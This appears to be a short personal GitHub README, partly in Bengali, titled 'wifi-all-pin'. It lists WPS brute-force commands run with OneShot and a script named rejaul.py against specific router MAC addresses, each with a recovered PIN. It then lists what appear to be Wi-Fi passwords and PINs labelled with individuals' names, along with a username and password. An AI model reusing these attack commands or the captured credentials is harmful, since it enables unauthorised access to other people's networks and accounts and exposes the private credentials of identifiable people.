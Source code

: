 # wifi-all-pin 

## একটু স্লো দোকানের:-  

``` sudo python rejaul2712/rejaul.py -i wlan0 -b 84:D8:1B:AA:9D:A8 -B -p 06273385 ```

## saim solobd বাগিনা:-
 
```sudo python rejaul2712/rejaul.py -i wlan0 -b CC:2D:21:62:13:58 -B -p 55157698 ```
sudo python OneShot/oneshot.py -i wlan0 -b 48:22:54:14:A0:C9 -p 49937305


``` rayhan password:- Anas2520


```username:- 100886@naim.sol-bd.com ```

``` passwod:- 1122 ``` sudo python OneShot/oneshot.py -i wlan0 -b 48:22:54:14:A0:C9 -p 49937305

jakir wifi:- 85239999

jamal wifi= 91978035

Rubrl wifi:- 21595684

jiban:- 68642419

sumaiya Home:- 21660436

sadik wifi= 70367157
